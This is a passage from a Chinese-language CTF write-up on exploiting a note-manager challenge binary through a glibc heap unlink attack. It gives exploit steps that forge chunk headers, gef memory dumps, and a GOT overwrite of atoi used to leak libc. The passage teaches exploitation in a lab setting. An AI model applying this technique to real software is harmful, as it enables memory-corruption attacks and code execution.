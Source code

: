 接下来
```
释放chunk1-覆盖chunk2-释放chunk2
deletenote(1)
content = 'a' * 16 + p64(0xa0) + p64(0x90)
newnote(0, content)
deletenote(2)
```
`free chunk 1`,大小为 `0x20`,会放到 `fastbin`，`newnote` 的时候为同一个，通过栈溢出可以修改 `chunk 2` `的pre_size` 和 `size` 分别为 `0xa0` 和 `0x90`。主要是设置了 `pre_size` 为 `0xa0`,并且 `inuse` 为 0，在进行 `unlink` 时根据 `pre_size` 得到后一个 `chunk`,刚好是我们在 `chunk 0` 中构造的 `fake chunk`。所以释放 `chunk2` 的时候可以后向合并（合并低地址），对 `chunk 0` 中虚拟构造的 `chunk` 进行 `unlink` 。 `unlink` 成功后，`ptr[0]`所存储的地址变为 `fakebk` ，即` ptr-0x18`。
可以看一下具体操作 
```c
  /* consolidate backward */
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      unlink(av, p, bck, fwd);
    }
```
```c
gef➤  x/32gx 0xae6010-0x10
0xae6000:	0x0000000000000000	0x0000000000000091
0xae6010:	0x6161616161616161	0x0000000000000061
0xae6020:	0x0000000000602108	0x0000000000602110
0xae6030:	0x6262626262626262	0x6262626262626262
0xae6040:	0x6262626262626262	0x6262626262626262
0xae6050:	0x6262626262626262	0x6262626262626262
0xae6060:	0x6262626262626262	0x6262626262626262
0xae6070:	0x0000000000000060	0x0000000000000000
0xae6080:	0x0000000000000000	0x0000000000000000
0xae6090:	0x0000000000000000	0x0000000000000021
0xae60a0:	0x6161616161616161	0x6161616161616161 
0xae60b0:	0x00000000000000a0	0x0000000000000090 => chunk 2 header modified
0xae60c0:	0x6262626262626200	0x6262626262626262 => ptr[2]
0xae60d0:	0x0000000000000000	0x0000000000000000
0xae60e0:	0x0000000000000000	0x0000000000000000
0xae60f0:	0x0000000000000000	0x0000000000000000
```
unlink后的效果：
```c
gef➤  x/16gx 0x0000000000602120
0x602120:	0x0000000000602108	0x0000000000000000 => ptr[0] = ptr-0x18
0x602130:	0x0000000000000000	0x00000000008750a0
```

#### 泄露libc 地址
`edit note[0]`，即 `edit ptr[0]` 指向的地方,即 `ptr-0x18`,修改 `ptr[0]` 为 `atoi` 的 `got`,通过 `show` 得到 `atoi` 地址，计算得 `libc` 地址
```c
gef➤  x/16gx 0x0000000000602120
0x602120:	0x0000000000602088	0x0000000000000000 => ptr[0] = atoi@got.plt
0x602130:	0x0000000000000000	0x00000000023710a0
0x602140:	0x0000000000000080	0x0000000000000000
0x602150:	0x0000000000000000	0x0000000000000000
0x602160:	0x0000000000000004	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000006f6c6c6568	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
gef➤  x/16gx 0x0000000000602088
0x602088 <atoi@got.plt>:	0x00007fc6acaa3e80	0x00000000004008c6
0x602098:	0x0000000000000000	0x0000000000000000
0x6020a8:	0x0000000000000000	0x0000000000000000
```